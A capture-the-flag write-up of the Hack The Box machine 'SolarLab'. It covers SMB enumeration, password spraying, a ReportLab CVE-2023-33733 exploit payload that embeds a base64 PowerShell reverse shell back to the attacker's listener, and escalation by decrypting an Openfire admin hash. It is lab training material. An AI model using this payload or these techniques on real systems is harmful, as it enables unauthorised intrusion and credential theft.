# HTB - SolarLab

#### Ip: 10.129.231.39
#### Name: SolarLab
#### Rating: Medium

------------------------------------------------


#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 5000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ sudo nmap -p- --min-rate 5000 -sC -sV 10.129.231.39
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-07 07:03 CST
Nmap scan report for 10.129.231.39
Host is up (0.073s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-07T13:05:18
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.26 seconds
```

Let's add solarlab.htb to `/etc/hosts`.

Looking at the site we find a page for a company that makes an 'unhackable' messaging app:



While our directory scan runs we can use nxc to see if we can read any SMB shares:



Cool, looks like we have read access to the Documents share.

There are several files in here:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ smbclient  \\\\10.129.231.39\\Documents -U guest
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Apr 26 09:47:14 2024
  ..                                 DR        0  Fri Apr 26 09:47:14 2024
  concepts                            D        0  Fri Apr 26 09:41:57 2024
  desktop.ini                       AHS      278  Fri Nov 17 04:54:43 2023
  details-file.xlsx                   A    12793  Fri Nov 17 06:27:21 2023
  My Music                        DHSrn        0  Thu Nov 16 13:36:51 2023
  My Pictures                     DHSrn        0  Thu Nov 16 13:36:51 2023
  My Videos                       DHSrn        0  Thu Nov 16 13:36:51 2023
  old_leave_request_form.docx         A    37194  Fri Nov 17 04:35:57 2023

		7779839 blocks of size 4096. 1846864 blocks available
```

Four of these files seem worth checking out:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ ls *.docx *.xlsx
details-file.xlsx  old_leave_request_form.docx  Training-Request-Form.docx  Travel-Request-Sample.docx
```

The details file contains user credentials:



Adding these to a users.txt and passwords.txt file and trying them out, we find nxc and CME are registering all combinations as valid, because it seems any credentials passed into SMB are for some reason being authenticated as guest? This may mean these usernames don't exist? I'm not really sure about that.

Going back to our directory scanning for a minute, neither FeroxBuster nor dirsearch has found anything of interest yet. And so far I have been unable to locate any VHOSTS. 

Looking at the files we downloaded from SMB, we can use exiftool and grep to isolate a few more potential usernames:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab/docs]
└─$ exiftool -a *.docx | grep 'Last Modified By'    
Last Modified By                : Jackie
Last Modified By                : FRYATT, Susanne (WGPSN)
Last Modified By                : Katy Brown
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/SolarLab/docs]
└─$ exiftool -a *.docx | grep 'Creator'         
Creator                         : Alison Melville
Creator                         : Gayle.Rennie
Creator                         : Paul Squillace
```

And looking at our existing files, we see the naming convention is all over the place:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ cat users.txt 
KAlexander
Alexander.knight@gmail.com
blake.byte
AlexanderK
ClaudiaS
```

So lets create a full_users list with all the different conventions:

```
alexander.knight
blake.byte
susanne.fryatt
katy.brown
alison.melville
gayle.rennie
paul.squillace
claudia.springer
alexander
blake
susanne
katy
alison
gayle
paul
claudia
administrator
AlexanderK
ClaudiaS
blakeb
susannef
katyb
alisonm
gayler
pauls
KAlexander
sclaudia
bblake
fsusanne
bkaty
malison
rgayle
spaul
```

We can unzip the contents of the .xlsx file and inside we find:



Which now confirms the usernames are likely just first name, at least on the machine, as well as that the user paul likely exists on the target.

Bruteforcing with our updated lists with:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ crackmapexec smb 10.129.231.39 -u full_users -p passwords.txt --continue-on-success --local-auth  
SMB         10.129.231.39   445    SOLARLAB         [*] Windows 10 / Server 2019 Build 19041 x64 (name:SOLARLAB) (domain:SOLARLAB) (signing:False) (SMBv1:False)
```

We find that the username blake is valid, as well as confirm his password:



We also find that none of these passwords work for the admin account (no big surprise there):

```
SMB         10.129.231.39   445    SOLARLAB         [-] SOLARLAB\administrator:al;ksdhfewoiuh STATUS_LOGON_FAILURE 
SMB         10.129.231.39   445    SOLARLAB         [-] SOLARLAB\administrator:dkjafblkjadsfgl STATUS_LOGON_FAILURE 
SMB         10.129.231.39   445    SOLARLAB         [-] SOLARLAB\administrator:d398sadsknr390 STATUS_LOGON_FAILURE 
SMB         10.129.231.39   445    SOLARLAB         [-] SOLARLAB\administrator:ThisCanB3typedeasily1@ STATUS_LOGON_FAILURE 
SMB         10.129.231.39   445    SOLARLAB         [-] SOLARLAB\administrator:danenacia9234n STATUS_LOGON_FAILURE 
SMB         10.129.231.39   445    SOLARLAB         [-] SOLARLAB\administrator:dadsfawe9dafkn STATUS_LOGON_FAILURE
```

We can further confirm that blake's credentials are valid with psexec:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ impacket-psexec blake@10.129.231.39
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.129.231.39.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'Documents' is not writable.
```

Obviously we can't login with this, but it confirms we have a valid username and password to the machine.

Blake has the same guest access to the Documents smb share, but nothing extra. So at this point we have valid credentials, but nowhere to use them yet.

At this point I reverted the machine, and suddenly (annoyingly) a new port opened up that wasn't present on my initial scan:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab/docs]
└─$ sudo nmap -p- -sC -sV 10.129.133.57  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-07 10:10 CST
Nmap scan report for 10.129.133.57
Host is up (0.075s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
6791/tcp open  http          nginx 1.24.0
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-07T16:16:29
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: 1m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 253.61 seconds
```

So let's add report.solarlab.htb for port 6791 to `/etc/hosts` and count this is a good lesson to not rush nmap with the `--min-rate` flag.



If we try to login with blake's credentials we get a "User not Found" error, and the same goes for paul.

Going back to my full users list and trying different naming conventions for blake I find we can login with `blakeb:ThisCanB3typedeasily1@`



Let's generate a time off request and attach the machine info card picture to the PDF:



Downloading the file and using exiftool, we see that it was creating using ReportLab PDF Library:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ exiftool  output.pdf       
ExifTool Version Number         : 12.57
File Name                       : output.pdf
Directory                       : .
File Size                       : 727 kB
File Modification Date/Time     : 2025:03:07 10:39:18-06:00
File Access Date/Time           : 2025:03:07 10:39:18-06:00
File Inode Change Date/Time     : 2025:03:07 10:39:18-06:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Author                          : (anonymous)
Create Date                     : 2025:03:07 18:39:25-02:00
Creator                         : (unspecified)
Modify Date                     : 2025:03:07 18:39:25-02:00
Producer                        : ReportLab PDF Library - www.reportlab.com
Subject                         : (unspecified)
Title                           : (anonymous)
Trapped                         : False
Page Mode                       : UseNone
Page Count                      : 1
```

Looking for exploits against ReportLab I find: https://ethicalhacking.uk/cve-2023-33733-rce-in-reportlabs-html-parser/#gsc.tab=0

### Exploitation

Trying the POC exploit to Download Invoke-PowerShellTcp.ps1 using the 'Leave Request' form, we notice we've gone over the 300 character limit and get this error: `Character limit exceeded. Please provide a concise justification!`

However, if we capture the request in Burp, and use the 'Travel Approval' form, we find we can insert the payload into the 'Travel Destination' field, which doesn't have a max character limit.

Let's grab a B64 encoded PowerShell reverse shell from revshells.com and use it in our payload:

```
<para>
    <font color="[ [ getattr(pow,Attacker('__globals__'))['os'].system('powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA5ADQAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==') for Attacker in [orgTypeFun('Attacker', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">
    exploit
    </font>
</para>
```



Submitting this with a listener running we catch a shell as user blake:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ nc -lnvp 443                         
listening on [any] 443 ...
connect to [10.10.14.194] from (UNKNOWN) [10.129.231.39] 64446
whoami
solarlab\blake
PS C:\Users\blake\Documents\app> hostname
solarlab
```

And we can grab the first flag:



### Privilege Escalation

Browsing around blake's Documents folder which contains app info we find a few more passwords in utils.py:

```
def create_database():
    db.create_all()
    if not User.query.filter_by(username='blakeb').first():
        db.session.add(User(username='blakeb', password='ThisCanB3typedeasily1@'))
    if not User.query.filter_by(username='claudias').first():
        db.session.add(User(username='claudias', password='007poiuytrewq'))
    if not User.query.filter_by(username='alexanderk').first():
        db.session.add(User(username='alexanderk', password='HotP!fireguard'))
```

This is interesting but claudias and alexanderk are not users on the local machine.

Locally there are only 3 users: administrator, blake and openfire.

Let's use nxc to see if these password work for any of the box users:



Cool, looks like alexanderk is using the same password as openfire.

Let's transfer over RunasCs.exe and use it to spawn a new shell as user openfire:



Looking around the box we find `openfire.script` in `C:\Program Files\Openfire\embedded-db`, and this file contains the admin password hash:

```
INSERT INTO OFUSER VALUES('admin','gjMoswpK+HakPdvLIvp6eLKlYh0=','9MwNQcJ9bF4YeyZDdns5gvXp620=','yidQk5Skw11QJWTBAloAb28lYHftqa0x',4096,NULL,'becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442','Administrator','admin@solarlab.htb','001700223740785','0')
<SNIP>
INSERT INTO OFPROPERTY VALUES('passwordKey','hGXiFzsKaAeYLjn',0,NULL)
```

From here we can use the openfire hash cracker at: https://github.com/z3rObyte/openfire-password-decrypter, and we can pass in both the hashed password as well as the passwordKey:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ python decrypter.py becb0c67cfec25aa266ae077e18177c5c3308e2255db062e4f0b77c577e159a11a94016d57ac62d4e89b2856b0289b365f3069802e59d442 hGXiFzsKaAeYLjn
Decrypted password: ThisPasswordShouldDo!@
```

Cool, we now have the admin password and can login and grab that final flag:

```
┌──(ryan㉿kali)-[~/HTB/SolarLab]
└─$ impacket-psexec administrator@10.129.112.137
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.129.112.137.....
[*] Found writable share ADMIN$
[*] Uploading file KycIVZhD.exe
[*] Opening SVCManager on 10.129.112.137.....
[*] Creating service GfHj on 10.129.112.137.....
[*] Starting service GfHj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
solarlab
```



Thanks for following along!

-Ryan

------------------------------------------

